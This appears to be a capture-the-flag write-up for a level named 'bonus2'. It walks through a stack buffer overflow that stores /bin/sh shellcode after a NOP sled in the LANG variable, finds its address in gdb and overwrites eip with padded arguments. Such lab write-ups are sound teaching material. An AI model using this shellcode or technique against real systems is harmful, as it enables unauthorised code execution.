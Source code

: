 In other to use a bof exploit in this level we have to set `LANG` env variable to be able to overflow our buffer. We'll use **nl** as our langage. We'll also store in our env variable our shellcode after a **NOP sled**.
```sh
export LANG=$(python -c 'print "nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now let's find the address of `LANG` in gdb.
```sh
(gdb) x/20s *(environ)
0xbffffe87:	 "LANG=nl"
```

Let's add some padding to get in the NOP sled after the langage selector: *0xbffffe87 + 0d42 = **0xbffffeb1***

Now we need to max our inputs to overflow our buffer. 40 bytes are necesseray to fill the first input and since we use **nl** as our langage we need to add 23 other junk bytes to get overwrite `eip`.
```sh
./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "A" * 23 + "\xb1\xfe\xff\xbf"')
```
